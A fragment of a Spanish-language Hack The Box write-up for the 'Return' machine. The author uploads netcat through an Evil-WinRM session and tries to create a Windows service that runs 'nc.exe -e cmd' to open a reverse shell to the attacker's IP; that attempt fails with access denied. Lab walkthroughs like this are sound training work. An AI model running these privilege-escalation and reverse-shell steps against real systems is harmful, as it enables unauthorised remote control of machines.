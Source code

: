 <img src="/assets/hackthebox/img/machines/easy/return/web6.png">
</p>

- Tenemos la capacidad de parar y arrancar un servicio como nos dicen el la web. 

- Lo que vamos a hacer primero es subir el `netcat`.

```bash
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc.exe
                                        
Info: Uploading /home/miguel7/Hackthebox/Return/nmap/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

-Vamos a crear un servicio que haga que nos envié una reverse shell a nuestro equipo.

- Pero nos dice que no se puede.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe create reverse binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.14 443"
[SC] OpenSCManager FAILED 5:

Access is denied.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
